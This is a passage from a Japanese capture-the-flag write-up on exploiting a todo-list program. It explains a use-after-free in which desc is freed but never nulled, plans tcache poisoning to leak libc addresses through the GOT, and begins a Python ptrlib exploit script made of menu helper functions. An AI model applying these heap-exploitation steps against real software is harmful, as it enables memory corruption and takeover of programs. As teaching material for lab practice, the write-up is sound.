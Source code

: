 さて、削除時にdescもfreeするのですが、最後に`todo->desc`にNULLを代入し忘れています。
また、descは編集時にmallocされるので、編集されていないdescをfreeできるかもしれません。
そうすれば、free済のチャンクを編集できることになるのでtcache poisoningが使えそうです。

そのためにはfreeの順番を考えましょう。
todoを1つ生成、編集すると次の順番でmallocされます。
```
todo = malloc(0x10);
todo->topic = malloc(0x1 ~ 0x200);
todo->desc = malloc(0x1 ~ 0xff);
```

削除は次の順番です。
```
free(todo->topic);
free(todo->desc);
free(todo);
```

順番が違うのでサイズを調整する必要があります。
まずはtodoをmallocしたときに削除したtopicやdescのアドレスが返るように調整しましょう。
もし可能なら、todo->descを任意のアドレスに調整でき、libcのアドレスリークができます。

まず、topic, descのサイズを0x10として確保、削除します。
するとtcacheは次のようにリンクされます。
```
tcache --> (todo0) --> (todo0->desc) --> (todo0->topic)
```

この状態でtopicのサイズを大きな値(0x40とします)にすればtcacheからはtodo0のみ取り出されます。
```
todo1 = todo0
todo1->topic = ?
todo1->desc = todo0->desc
```
さらに新しいtodoを(例えばtopicサイズ0x10で)作ると、tcacheから`todo0->desc`が取り出されるので、次のようになります。
```
todo2 = todo0->desc
todo2->topic = todo0->topic
todo2->desc = todo0->desc + 8
```
todo0で削除したdescの一部をtodo2のdescのポインタとして使えていることが分かります。
これを利用して適当な関数のアドレスをGOTから読んでみましょう。

```python
from ptrlib import *

def create_todo(topic):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("topic: ")
    sock.sendline(topic)

def edit_todo(topic, desc, length):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("topic: ")
    sock.sendline(topic)
    sock.recvuntil("Desc length: ")
    sock.sendline(str(length))
    sock.recvuntil("Desc: ")
    sock.sendline(desc)

def delete_todo(topic):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("topic: ")
    sock.sendline(topic)
```